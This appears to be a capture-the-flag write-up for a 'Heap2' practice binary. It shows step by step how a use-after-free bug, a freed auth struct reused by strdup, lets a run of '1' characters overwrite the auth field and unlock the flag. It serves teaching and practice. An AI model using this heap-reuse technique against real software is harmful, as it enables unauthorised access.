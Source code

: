 ```yaml
---
title:  "Writeup: Heap2"
date:   2019-04-25 12:00:00
categories: writeup
author: Esteban Aranda
layout: post
---
```


Basic concepts that one should understand before attempting to solve this binary are: pointers, `malloc`, and `free`.

By examining the source code we can see that this problem has an auth structure made up of a 32 byte-long string and an int. Two pointers are defined, one to an auth struct and one to a "service" character. The program runs on an infinite while loop and there are four commands we can run, `auth`, `reset`, `service`, and `login`. Based on what command we run the program proceeds to do different actions. Our goal is to successfully log in to read the flag. To help us out, there is also a print statement that prints the memory addresses of our two variables.

Unlike previous heap problems, this problem reads user input from stdin using `fgets`, so we cannot overflow it, and the `auth` commands also checks for length of the string. However, our plan is still to somehow overwrite `auth->auth` with `1`, to be able to login and read the flag.

We can first call the commands to see what they do:

```
[ auth = (nil), service = (nil) ]                                                                                          
auth AAAA                                                                                                                  
[ auth = 0x804b818, service = (nil) ]                                                                                      
service BBBB
[ auth = 0x804b818, service = 0x804b828 ]                                                                                  
login                                                                                                                      
please enter your password                                                                                                 
[ auth = 0x804b818, service = 0x804b828 ]                                                                                  
reset
[ auth = 0x804b818, service = 0x804b828 ]
```

**Commands:**
 - 'auth': allocates memory for the auth struct and fills it with `0`'s via `memset`. It then checks if the string given after calling the command is shorter than 32 bytes, and if so it copies it into `auth->name`.
 - `reset`: frees the memory location pointed to by the auth struct pointer. However, as can be seen above, the pointer still points to the same location in memory even after calling the command. This is a Use-After-Free vulnerability that we can exploit since the `login` command will still try to access the “freed” `auth->auth`.
 - `service`: sets the service pointer to the memory address returned by `strdup`. This memory address contains the duplicate of the string input by the user. 
 - `login`: checks if `auth->auth` is equal to `1`, and if it is, it logins and prints out the flag. Otherwise, it prompts the user to enter the correct password.

We can read `strdup`'s manpage to see exactly how it works:

```
The strdup() function returns a pointer to a new string which is a duplicate of the
string  s.   Memory for the new string is obtained with malloc(3), and can be freed
with free(3).
```

The function allocates memory in the heap via `malloc`, so in theory after freeing the auth struct with the `reset` command, `strdup` will allocate memory in the same location pointed to by the auth pointer. We can confirm this by running the commands in the following order:

```
[ auth = (nil), service = (nil) ]                                                                                          
auth AAAA                                                                                                                  
[ auth = 0x804b818, service = (nil) ]                                                                                      
reset                                                                                                                      
[ auth = 0x804b818, service = (nil) ]                                                                                      
service BBBB
[ auth = 0x804b818, service = 0x804b818 ]                                                                                  
```

By first allocating memory for the struct, then freeing it, and then allocating memory for service via `strdup` we can see that both pointers end up pointing to `0x804b818`.

With the knowledge of what each command does, how `strdup` works, and the Use-After-Free vulnerability we are ready to exploit the program to login and get the flag. By calling the same sequence of command as above, but calling `service` with multiple `1`’s so that `strdup` will duplicate them onto the memory location pointed to by `auth->auth`, we can successfuly overwrite that field of the struct and login.

```
[ auth = (nil), service = (nil) ]                                                                                          
auth AAAA                                                                                                                  
[ auth = 0x804b818, service = (nil) ]                                                                                      
reset                                                                                                                      
[ auth = 0x804b818, service = (nil) ]                                                                                      
service 11111111111111111111111111111                                                                                      
[ auth = 0x804b818, service = 0x804b828 ]                                                                                  
login                                                                                                                      
you have logged in already!                                                                                                
flag: hello world!
                                                                            
[ auth = 0x804b818, service = 0x804b828 ]
```
